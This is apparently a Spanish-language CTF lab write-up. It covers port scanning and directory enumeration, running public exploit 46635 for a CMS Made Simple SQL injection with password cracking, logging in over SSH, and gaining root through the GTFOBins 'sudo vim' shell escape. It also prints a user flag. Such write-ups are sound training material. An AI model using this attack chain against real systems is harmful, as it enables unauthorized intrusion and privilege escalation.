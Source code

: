 # Summary
- IP: 10.10.129.26
- Ports: 21,80,2222
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  80 -> Apache httpd 2.4.18
	-  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```


- Buscamos vulnerabilidades en las aplicaciones encontradas, ftp no nos da nada, la página no contiene nada relevante; hacemos escaneo de directorios con gobuster:

```
$gobuster dir -u http://10.10.129.26/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Encontramos un directorio "simple", lo analizamos y encontramos una app web con su version, buscamos vulnerabilidades para la misma:

```
$searchsploit CMS Made Simple 2.2.8
```


- Encontramos una vulnerabilidad SQLi, exportamos la script de python y la ejecutamos

```
$python2.7 46635.py -u http://10.10.129.26/simple/ --crack -w /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
```


- Obtenemos credenciales e intentamos conectarnos por ssh:

```
ssh mitch@10.10.129.26 -p 2222
```


- Encontramos la user flag:
# USER FLAG: G00d j0b, keep up!

- Buscamos binarios con permisos de sudoers:

```
mitch@machine:/$sudo -l
```


- Vemos que podemos ejecutar como sudoer el binario "vim", el cual buscamos en gtfobins para poder escalar privilegios:
```
sudo vim -c ':!/bin/sh'
```

- Encontramos la root flag:
# ROOT FLAG: 